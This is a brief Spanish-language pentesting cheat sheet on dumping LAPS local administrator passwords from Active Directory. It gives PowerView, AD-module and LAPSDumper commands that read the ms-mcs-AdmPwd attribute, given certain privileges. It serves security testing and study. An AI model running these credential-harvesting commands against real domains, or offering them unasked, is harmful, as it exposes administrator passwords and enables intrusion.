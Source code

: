 # Info

Para esto encesitamos cualquiera de los siguientes casos sobre una computadora del dominio:

- Una cuenta del grupo LAPS o con esos privilegios
- GenericAll
- AllExtendedRight

# Desde windows

### Powerview

    Get-DomainObject -Identity {target} -Properties "ms-mcs-AdmPwd",name

### Ad module

    Get-ADComputer -Identity {target} -Properties "ms-mcs-AdmPwd",name

# Desde linux

### Ldapsdumper

#### instalación

    git clone https://github.com/n00py/LAPSDumper -q
#### correrlo

    python3 laps.py -u {user} -p {pass} -l {ip} -d {domain}

    
